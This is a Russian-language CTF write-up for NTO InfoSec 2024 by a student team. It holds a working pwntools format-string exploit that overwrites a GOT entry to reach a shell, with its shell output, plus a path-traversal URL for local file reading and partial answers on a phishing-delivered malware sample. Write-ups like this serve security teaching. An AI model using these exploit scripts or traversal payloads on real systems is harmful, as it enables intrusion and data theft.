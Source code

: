 # NTO-InfoSec-2024-writeups
# Команда "two_raccoons_enough"
____
# Task based
## PWN
### 10 баллов
Залив исходники в дизассемблер, мы можем заметить функцию `win()`, которая возвращает  `/bin/sh`, способный дать нам контроль над машиной. В функции `main()` содержится memory unsafe `printf(format: &var_418)`, уязвимая к f-strings. 
```shell
┌──(kali㉿KaliOlymp)-[~/Downloads]
└─$ nc 192.168.12.13 1923        
%x %x %x %x
78252078 fbad2088 15a62ac 0
```
Проверив эту гипотезу, мы приступили к редактированию кода, который использовался в райтапах на подобную задачу, [найденного на CTFTime](https://ctftime.org/writeup/33272).
```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ubume.crewctf-2022.crewc.tf', 1337)
    else:
        return process(e.path)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Этот код не работал и не совсем подходил для нашего таска, поэтому пришлось его отредактировать
```python
from pwn import *


binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF("/home/kali/Desktop/main")
r = ROP(e)

gs = '''
continue
'''

def start():
    return remote('192.168.12.13', 1923)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Эксплоит успешно передал управление функции `win()`, которая дала нам полный доступ к уязвимой машине
```shell
┌──(kali㉿KaliOlymp)-[~/Desktop]
└─$ python exploit.py -h ./main
[*] '/home/kali/Desktop/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 4 cached gadgets for '/home/kali/Desktop/main'
[+] Opening connection to 192.168.12.13 on port 1923: Done
[*] Switching to interactive mode
```
```shell
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
main
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
nto{easy_formt_string}
$  
```
Мы получили флаг: **nto{easy_formt_string}**
____
## Web 
### 10 баллов
На сайте мы сразу же видим число 20, на которое можно нажать. Нажав мы видим `Hint_1 maybe in etc/secret ???`.
Это явный намёк на LFI. Просто меняем путь в строке на http://192.168.12.10:5001/download?file_type=../../../../etc/secret и получаем флаг:
**nto{P6t9_T77v6RsA1}**
____
## Crypto
### 10 баллов
____
## Расследование инцидента
____
### Машина на Windows
____
#### Вопросы
- [X] Каким образом вредоносное ПО попало на компьютер пользователя? Стоимость: 5
- [x] С какого сервера была скачана полезная нагрузка? Стоимость: 5
- [x] С помощью какой уязвимости данное ВПО запустилось? В каком ПО? Стоимость: 5
- [x] Какие методы противодействия отладке использует программа? Стоимость: 10
- [x] Какой алгоритм шифрования используется при шифровании данных? Стоимость: 10
- [ ] Какой ключ шифрования используется при шифровании данных? Стоимость: 25
- [ ] Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? Стоимость: 20
- [ ] Каково содержимое расшифрованного файла pass.txt на рабочем столе? Стоимость: 40
____
#### Ответы![9db72216-d991-4b9e-8c0a-d85e8c3f1560_Screenshot_2024-03-21_15-38-04](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/b5f2e878-a705-41dd-8707-783f7566b5d7)

 + `Вредоносное ПО было загружено из фишингового письма по почтовой рассылке`
 + ![Screenshot_2024-03-21_17-44-27](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/b362ca24-4180-483b-b0fb-70ce4c6d0cf8)
 + `Запустилось в WinRar(е) . Открыв приложение LastActivityView находим что прямо перед тем как запустился Rjomba.exe Запустился винрар и вызвалась командная строка. Подробности на скрине` 
 + `Вирус моментально закрывает процесс монитор и процесс хакер`
 + `Вирус использует алгоритм блочного шифрования AES CBC` ![71f20a33-1011-42fb-b6d9-d7bd25b93d85_Screenshot_2024-03-21_17-43-19](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/0d5de590-41aa-4686-ae00-9400ea387b1d)

